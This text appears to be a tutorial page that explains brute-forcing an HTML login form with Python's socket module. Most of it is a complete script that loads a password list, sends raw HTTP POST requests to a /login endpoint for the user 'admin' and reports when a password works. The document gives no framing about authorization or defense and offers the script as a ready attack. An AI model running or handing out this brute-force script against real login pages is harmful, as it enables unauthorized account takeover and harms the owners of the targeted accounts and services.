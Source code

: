 
Brute-forcing HTML-based authentication using the `socket` module in Python involves manually crafting HTTP requests and handling the communication with the web server. This process typically requires sending POST requests with different username and password combinations and analyzing the HTML responses to check for successful login or authentication failure.

Here is a basic example of how you might approach brute-forcing HTML-based authentication using the `socket` module:

```python
import socket
import urllib.parse

target_host = "example.com"
target_port = 80
username = "admin"
passwords_file = "passwords.txt"

# Load passwords from a file
with open(passwords_file, "r") as file:
    passwords = [line.strip() for line in file]

def brute_force():
    for password in passwords:
        # Construct the HTTP POST request
        post_data = urllib.parse.urlencode({
            "username": username,
            "password": password,
            "submit": "login"
        })

        request = f"POST /login HTTP/1.1\r\nHost: {target_host}\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {len(post_data)}\r\n\r\n{post_data}"

        # Create a socket connection to the target server
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target_host, target_port))

        # Send the HTTP POST request
        client.send(request.encode())

        # Receive the response from the server
        response = client.recv(4096).decode()

        # Check if the response contains an indication of successful login
        if "Authentication Successful" in response:
            print(f"[+] Password found: {password}")
            break
        else:
            print(f"[-] Authentication failed with password: {password}")

        # Close the socket connection
        client.close()

if __name__ == "__main__":
    brute_force()
```

